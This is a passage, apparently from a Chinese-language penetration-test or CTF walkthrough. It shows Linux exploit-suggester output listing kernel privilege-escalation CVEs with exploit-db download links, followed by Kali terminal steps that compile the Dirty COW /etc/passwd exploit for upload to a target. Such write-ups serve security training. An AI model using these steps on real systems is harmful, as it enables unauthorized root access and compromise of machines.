 ```
   Download URL: https://www.exploit-db.com/download/39230

[+] [CVE-2014-5207] fuse_suid

   Details: https://www.exploit-db.com/exploits/34923/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/34923

[+] [CVE-2014-0196] rawmodePTY

   Details: http://blog.includesecurity.com/2014/06/exploit-walkthrough-cve-2014-0196-pty-kernel-race-condition.html
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/33516

[+] [CVE-2013-2094] semtex

   Details: http://timetobleed.com/a-closer-look-at-a-recent-privilege-escalation-bug-in-linux-cve-2013-2094/
   Exposure: less probable
   Tags: RHEL=6
   Download URL: https://www.exploit-db.com/download/25444

[+] [CVE-2013-1959] userns_root_sploit

   Details: http://www.openwall.com/lists/oss-security/2013/04/29/1
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/25450

[+] [CVE-2013-0268] msr

   Details: https://www.exploit-db.com/exploits/27297/
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/27297

[+] [CVE-2012-0809] death_star (sudo)

   Details: http://seclists.org/fulldisclosure/2012/Jan/att-590/advisory_sudo.txt
   Exposure: less probable
   Tags: fedora=16
   Download URL: https://www.exploit-db.com/download/18436
```

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

在Kali上编译c文件，将编译好的二进制文件上传到目标。

```
┌──(root㉿kali)-[~/Downloads]
└─# ls
40839.c  Nessus-10.2.0-debian9_amd64.deb
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/Downloads]
└─# mv 40839.c dirty.c           
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/Downloads]
└─# gcc -pthread dirty.c -o dirty -lcrypt
```
